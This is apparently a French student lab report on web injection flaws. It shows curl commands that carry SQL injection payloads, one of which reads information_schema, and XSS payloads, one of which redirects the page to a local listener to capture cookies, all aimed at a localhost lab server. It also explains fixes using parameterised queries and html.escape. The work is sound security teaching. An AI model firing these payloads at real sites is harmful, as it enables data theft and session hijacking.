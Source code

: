 # Rendu "Injection"

## Binome

- Rayane Hamani - rayane.hamani.etu@univ-lille.fr
- Florian Dendoncker - florian.dendoncker.etu@univ-lille.fr

## Question 1

- **Quel est ce mécanisme ?**  
    Il s'agit de la fonction `validate` qui va être appelée `onsubmit` et va utiliser une regex pour vérifier que la chaîne entrée possède bien uniquement des chiffres et des lettres.

- **Est-il efficace? Pourquoi ?**  
    Non pour deux raisons.

    La première, car il est possible de `désactiver Javascript dans le navigateur`. En faisant ça et en rechargeant la page, il devient possible d'`injecter des chaînes non-conformes initialement`, possédants donc bien plus que des chiffres et des lettres.

    La seconde, car il est possible d'`inspecter les éléments de la page` dans le navigateur et de `supprimer la vérification onsubmit` ce qui aura aussi pour effet de donner la possibilité d'`injecter des chaînes non-conformes initialement`.

## Question 2

- **Votre commande curl**  
    ```sh
    curl 'http://localhost:8080/' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://localhost:8080' -H 'Connection: keep-alive' -H 'Referer: http://localhost:8080/' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'chaine=chaine+avec+des+espaces&submit=OK'
    ```

## Question 3

- **Commande curl pour insérer ce que l'on veut dans le champ `who`**  
    ```sh
    curl 'http://localhost:8080/' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://localhost:8080' -H 'Connection: keep-alive' -H 'Referer: http://localhost:8080/' -H 'Upgrade-Insecure-Requests: 1' --data-raw "chaine=chaine+avec+des+espaces+2','rayane') -- &submit=OK"
    ```

- **Expliquez comment obtenir des informations sur une autre table**  
    ```sh
    curl 'http://localhost:8080/' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://localhost:8080' -H 'Connection: keep-alive' -H 'Referer: http://localhost:8080/' -H 'Upgrade-Insecure-Requests: 1' --data-raw "chaine=chaine+avec+des+espaces+3',(SELECT DESCRIPTION FROM information_schema.CHARACTER_SETS WHERE CHARACTER_SET_NAME='utf8')) -- &submit=OK"
    ```
    En prenant le contexte de cette question, `les champs attendus sont des varchar`. En ne renseignant pas le type attendu, `SQL va traiter ces champs comme des commandes`. Ces commandes peuvent alors `atteindre et retourner des informations sur les autres tables` de la base de données.

## Question 4

- **Rendre un fichier serveur_correct.py avec la correction de la faille de sécurité. Expliquez comment vous avez corrigé la faille.**  
    Plutôt que d'attendre les informations venant du navigateur, `on paramètre la requête en donnant les types attendus`. Cela a l'avantage de faire en sorte que `les informations envoyées soient toujours traitées de la même façon` par la base de données. Le traitement se fera donc côté serveur.  
    Dans notre cas, notre base de données attend deux varchar : `txt` et `who`. Le premier est `un texte quelconque` tandis que le second représente `l'adresse IP de l'envoyeur`. On peut donc corriger la faille en créant `un tuple de chaînes de caractères` dont le premier est `l'entrée strictement typé` dans le navigateur et le second est `l'adresse IP récupérée grâce au framework cherrypi`.

## Question 5

- **Commande curl pour afficher une fenetre de dialog.**  
    ```sh
    curl 'http://localhost:8080/' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://localhost:8080' -H 'Connection: keep-alive' -H 'Referer: http://localhost:8080/' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'chaine=<script>alert("Hello!")</script>&submit=OK'
    ```

- **Commande curl pour lire les cookies**  
    ```sh
    curl 'http://localhost:8080/' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://localhost:8080' -H 'Connection: keep-alive' -H 'Referer: http://localhost:8080/' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'chaine=<script>document.location="http://127.0.0.1:55555"</script>&submit=OK'
    ```

    ![screenshot des cookies recuperes](./screenshot des cookies recuperes.png)

## Question 6

- **Rendre un fichier serveur_xss.py avec la correction de la faille. Expliquez la demarche que vous avez suivi.**  
    En Python comme en PHP, il existe des fonctions permettants de `remplacer les caractères de balisage` par des chaînes sécurisées. En PHP il y a `HtmlSpecialChars` et en Python il y a `html.escape`. Nous avons donc utilisé la fonction html.escape sur l'entrée afin d'`échapper l'injection de potentiel code Javascript`.
